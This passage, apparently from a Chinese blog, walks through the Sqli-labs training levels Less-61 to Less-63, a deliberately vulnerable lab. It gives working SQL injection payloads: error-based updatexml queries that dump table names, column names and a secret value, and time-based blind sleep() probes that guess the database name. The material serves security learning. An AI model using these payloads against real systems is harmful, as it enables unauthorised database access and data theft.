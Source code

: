 **查看表**<br />http://www.web.com/sql/Less-61/?id=1')) and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='challenges'),0x7e),1)--+<br />![](https://img-blog.csdnimg.cn/20200728112206423.png#crop=0&crop=0&crop=1&crop=1&id=NoxEf&originHeight=157&originWidth=325&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看字段**<br />http://www.web.com/sql/Less-61/?id=1')) and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='ct68iwp1c5'),0x7e),1)--+<br />![](https://img-blog.csdnimg.cn/20200728112246715.png#crop=0&crop=0&crop=1&crop=1&id=JybVr&originHeight=182&originWidth=426&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看密码**<br />http://www.web.com/sql/Less-61/?id=1')) and updatexml(1,concat(0x7e,(select group_concat(secret_ROXS) from challenges.ct68iwp1c5),0x7e),1)--+<br />![](https://img-blog.csdnimg.cn/20200728112329126.png#crop=0&crop=0&crop=1&crop=1&id=IMhFL&originHeight=182&originWidth=521&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**将得到的密码输入到下面的方框中进行验证**<br />![](https://img-blog.csdnimg.cn/20200728112341205.png#crop=0&crop=0&crop=1&crop=1&id=t65yT&originHeight=49&originWidth=413&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**成功**<br />![](https://img-blog.csdnimg.cn/20200728112349402.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=qnMnX&originHeight=215&originWidth=778&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)


# Sqli-labs-Less-62
![](https://img-blog.csdnimg.cn/20200728142310424.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=Mabfa&originHeight=491&originWidth=1116&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
**本关对输入次数的限制为130次，通过次数可知，这一关是需要使用万恶的时间盲注**

**查找注入点**<br />http://www.web.com/sql/Less-62/?id=1' and sleep(2)--+

**存在注入则延时2s，没有延时**<br />http://www.web.com/sql/Less-62/?id=1') and sleep(2)--+<br />有延时，存在注入<br />![](https://img-blog.csdnimg.cn/2020072814450664.png#crop=0&crop=0&crop=1&crop=1&id=Mzht2&originHeight=140&originWidth=354&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**判断数据库名称长度**<br />http://www.web.com/sql/Less-62/?id=1') and if(length(database())=10,1,sleep(2))--+<br />当等于9或者11时都有延时，说明数据库名称长度为10<br />![](https://img-blog.csdnimg.cn/20200728144710324.png#crop=0&crop=0&crop=1&crop=1&id=xwrRl&originHeight=171&originWidth=301&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**判断数据库名称**<br />http://www.web.com/sql/Less-62/?id=1') and if(substr((select database()),1,1)='c',1,sleep(2))--+<br />当猜测正确时页面会立即刷新并返回正确，猜测错误则延时2s并返回错误<br />使用burp爆破可以找出数据库为challenges<br />![](https://img-blog.csdnimg.cn/20200728145933878.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=JGStv&originHeight=292&originWidth=823&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
**此处使用时间注入所需要的的时间太长，不进行一一描叙**<br />时间注入详见Sqli-labs-Less-8


# Sqli-labs-Less-63
![](https://img-blog.csdnimg.cn/2020072815054946.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=GlKYJ&originHeight=504&originWidth=1127&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
**本关对输入次数的限制为130次，通过次数可知，这一关是需要使用万恶的时间盲注**

